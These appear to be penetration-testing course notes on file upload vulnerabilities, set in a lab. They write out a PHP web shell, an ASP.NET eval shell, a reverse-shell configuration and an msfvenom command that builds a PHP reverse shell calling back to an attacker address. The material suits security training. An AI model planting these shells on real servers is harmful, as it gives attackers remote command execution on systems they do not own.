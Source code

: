 # 🐌 File Upload Attacks

The worst possible kind of file upload vulnerability is an `unauthenticated arbitrary file upload` vulnerability. With this type of vulnerability, a web application allows any unauthenticated user to upload any file type, making it one step away from allowing any user to execute code on the back-end server.

The most common and critical attack caused by arbitrary file uploads is `gaining remote command execution` over the back-end server by uploading a web shell or uploading a script that sends a reverse shell.

#### **Basic Exploitation**

The most basic type of file upload vulnerability occurs when the web application `does not have any form of validation filters` on the uploaded files, allowing the upload of any file type by default.

Let's imagine a upload form that does not specify what type of file we can upload:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Many kinds of scripts can help us exploit web applications through arbitrary file upload, most commonly a `Web Shell` script and a `Reverse Shell` script.

A web shell prints it's output back to us within the web browser. It has to be written in the same programming language that runs the web server, as it runs platform-specific functions and commands to execute system commands on the back-end server, making web shells non-cross-platform scripts.

Let's say we have a website `http://SERVER_IP:PORT/`, as the `index` page is usually hidden by default. But, if we try visiting `http://SERVER_IP:PORT/index.php`, we would get the same page, which means that this is indeed a `PHP` web application.

but if not we can juste use [Wappalyzer](https://www.wappalyzer.com)

To start exploiting the vuln , let's start by writing `<?php echo "Hello HTB";?>` to `test.php`, and try uploading it to the web application

we get a message saying `File successfully uploaded` and if we go to `http://SERVER_IP:PORT/uploads/test.php`

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Try to upload a PHP script that executes the (hostname) command on the back-end server, and submit the first word of it as the answer.**_

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Upload Exploitation

### Web Shell

Now we will try to be able to interact with it to take control over the back-end server.

A good webshell for `PHP` is [phpbash](https://github.com/Arrexel/phpbash) and good to know but [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages, which can be found in the `/opt/useful/SecLists/Web-Shells` directory in `PwnBox`.

It's good practice to know how to write our own webshell:

```php
<?php system($_REQUEST['cmd']); ?>
```

add `?cmd=id` after the request to enter the command

For `.NET` web applications:

```aspnet
<% eval request('cmd') %>
```

### Reverse Shell

One reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. Furthermore, the same [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.

After changing the IP and port

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

We launch our listener with netcat, upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection

### Custom Reverse Shell

`msfvenom` can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for `PHP`

```shell-session
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
